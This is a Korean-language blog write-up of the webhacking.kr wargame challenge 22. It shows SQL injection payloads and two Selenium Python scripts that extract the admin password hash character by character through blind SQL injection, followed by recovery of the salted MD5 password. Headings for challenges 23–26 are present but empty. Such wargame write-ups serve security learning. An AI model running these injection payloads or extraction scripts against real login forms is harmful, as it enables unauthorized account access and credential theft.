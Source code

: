 ```yaml
---
title: "Security: webhacking.kr 22-26"
last_modified_at: 2020-07-26T20:20:02-05:00
categories:
  - Security
tags:
  - webhacking.kr
  - 웹해킹
toc: true 
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true 
author_profile: true 
read_time: false 
---
```


---
### 22 문제풀이
---

22번 문제에 들어와보니 로그인 화면이 나타났다 SQL Injection 으로 풀수있을 것 같다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

id와 pw에 test를 입력하고 join을 해봤다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>

그리고 나서 로그인 해보니 패스워드 해쉬 값이 나왔다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>

우선은 아래에 id가 admin이라는 힌트가 나와으므로 admin' and 1#를 입력하여 pw를 true 로 만들어 보았다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>

그랬더니 Wrong password! 라는 메세지가 나타났다
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-5.JPG" alt="">
  <figcaption> </figcaption>
</figure>

그래서 admin과 아무 비밀번호를 입력해보니 Login Fail! 이라는 메세지를 볼 수 있었다. SQL Blind Injection에 이용하면 될 것 같다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-6.JPG" alt="">
  <figcaption> </figcaption>
</figure>

우선 html 소스코드를 열어 필드명들을 확인하고 이를 기반으로 소스코드를 작성하였다.
{: .notice}

```php
<html>
<head>
<title>Challenge 22</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
table { background:black; color:white; font-size:9pt; }
input { background:silver; color:black; font-size:9pt; }
a { color:lightgreen; }
</style>
</head>
<body>

<form method=post action=index.php>
<table border=1 cellpadding=5 cellspacing=0>
<tr><td>username</td><td><input name=uuid type=text></td></tr>
<tr><td>password</td><td><input name=pw type=password></td></tr>
<tr align=center><td><input type=submit value='login'></td><td><input type=button value='join' onclick=location.href='?mode=join' style=width:100;></td></tr>
</form>

<p>

</table><br><br>
<p style=background:white;color:black;width:400;>
mission : login as admin<br>
Column Name : id, pw
</p>

</body>
</html>
```

true 이면 Wrong password, false면 Login Fail 이 나타나므로 이를 이용하여 pw 길이부터 구했다.
{: .notice}

```python
from selenium import webdriver
from selenium.webdriver.remote.webelement import WebElement
from selenium.webdriver.common.keys import Keys
from selenium.webdriver import ActionChains
import re

#연결

url = "https://webhacking.kr/challenge/bonus-2/"
chromedriver = 'C:/Users/authe/AppData/Local/Programs/Python/Python38/Scripts/chromedriver.exe'
driver = webdriver.Chrome(chromedriver)

driver.get(url)
cookie = {'name':'PHPSESSID', 'value':'6i88jov341jics4n6c342ho6fq'}
driver.add_cookie(cookie)
driver.get(url)

for n in range(1,50):
    driver.get(url)
    print(n)
    #id 입력
    name = driver.find_element_by_name('uuid')
    name.send_keys("admin' and length(pw)={}#".format(n))
    #pw 입력
    pw = driver.find_element_by_name('pw')
    pw.send_keys("1")

    submitButton = driver.find_element_by_xpath("/html/body/form/table/tbody/tr[3]/td[1]/input")
    submitButton.click()
    if ("Login Fail!" in driver.find_element_by_xpath("/html/body").text):
        print("found!")
        continue
    else: break
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-7.JPG" alt="">
  <figcaption> </figcaption>
</figure>

pw의 길이는 32로 나왔고 본격적으로 pw를 구해보았다.
{: .notice}

```python
from selenium import webdriver
from selenium.webdriver.remote.webelement import WebElement
from selenium.webdriver.common.keys import Keys
from selenium.webdriver import ActionChains
import re

#연결

url = "https://webhacking.kr/challenge/bonus-2/"
chromedriver = 'C:/Users/authe/AppData/Local/Programs/Python/Python38/Scripts/chromedriver.exe'
driver = webdriver.Chrome(chromedriver)

driver.get(url)
cookie = {'name':'PHPSESSID', 'value':'6i88jov341jics4n6c342ho6fq'}
driver.add_cookie(cookie)
driver.get(url)

p_string = ""
for i in range(1,33):
    driver.get(url)
    print(i)
    for j in range(33,128):
        name = driver.find_element_by_name('uuid')
        name.send_keys("admin' and ord(substr(pw,{},1))={}#".format(i,j))       
        pw = driver.find_element_by_name('pw')
        pw.send_keys("1")     
        submitButton = driver.find_element_by_xpath("/html/body/form/table/tbody/tr[3]/td[1]/input")
        submitButton.click()
        if ("Login Fail!" in driver.find_element_by_xpath("/html/body").text):
            print("{},{}".format(i,j))
        else:
            p_string+=chr(j)
            print(p_string)
            driver.get(url)
print(p_string)
```

패스워드는 md5 값으로 보인다. decryption을 시도해보았다.
{: .notice}

```
6c9ca386a903921d7fa230ffa0ffc153
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-8.JPG" alt="">
  <figcaption> </figcaption>
</figure>

wowapple 이라니? 답이 이게 맞는걸까? 로그인을 시도해보니 실패했다! 아까 test 계정에서 얻었던 hash 값을 살펴보았다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-9.JPG" alt="">
  <figcaption> </figcaption>
</figure>

test 계정의 패스워드는 test로 생성했었는데 testapple의 해쉬값이 나타난것을 보아하니 salt 값으로 apple이 붙는듯 하다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-10.JPG" alt="">
  <figcaption> </figcaption>
</figure>

따라서 admin의 pw는 apple을 뺀 wow 이다. 이 정보로 로그인을 했더니 성공했다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-11.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-12.JPG" alt="">
  <figcaption> </figcaption>
</figure>

---
### 23 문제풀이
---

---
### 24 문제풀이
---

---
### 25 문제풀이
---

---
### 26 문제풀이
---

